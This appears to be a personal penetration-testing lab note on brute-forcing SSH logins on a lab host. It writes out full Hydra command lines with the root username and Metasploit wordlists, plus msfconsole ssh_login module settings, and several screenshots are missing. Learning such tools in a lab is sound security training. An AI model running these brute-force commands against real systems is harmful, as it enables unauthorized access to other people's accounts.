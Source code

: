 [[Manual Exploitation]], [[Gaining Root with Metasploit]], [[Staged vs Non-Staged Payloads]]


**Tools we'll use.**
### Hydra - First tool we'll use for brute forcing

```
┌──(root㉿kali)-[/home/kali]
└─# hydra -l root -P /usr/share/wordlists/metasploit/

```

![[Pasted image 20240215162248.png]]

**We'll choose the right wordlist for the right option for us to attack the kernel of the target.**

![[Pasted image 20240215162444.png]]
**Payload**
```
┌──(root㉿kali)-[/home/kali]
└─# hydra -l root -P /usr/share/wordlists/metasploit/unix_users.txt ssh://192.168.189.130:22 -t 4 -V
```


### Metasplot(bruteforce)
```
┌──(kali㉿kali)-[~]
└─$ msfconsole

```

**After you got into metasploit you can now look for vulnerability like searchsploit**
![[Pasted image 20240215163148.png]]

**msfconsole payload**
```
msf6 auxilary(scanner/ssh/ssh_login) > set PASS_FILE /usr/share/wordlist/metasploit/unix_password.txt
```

![[Pasted image 20240215163828.png]]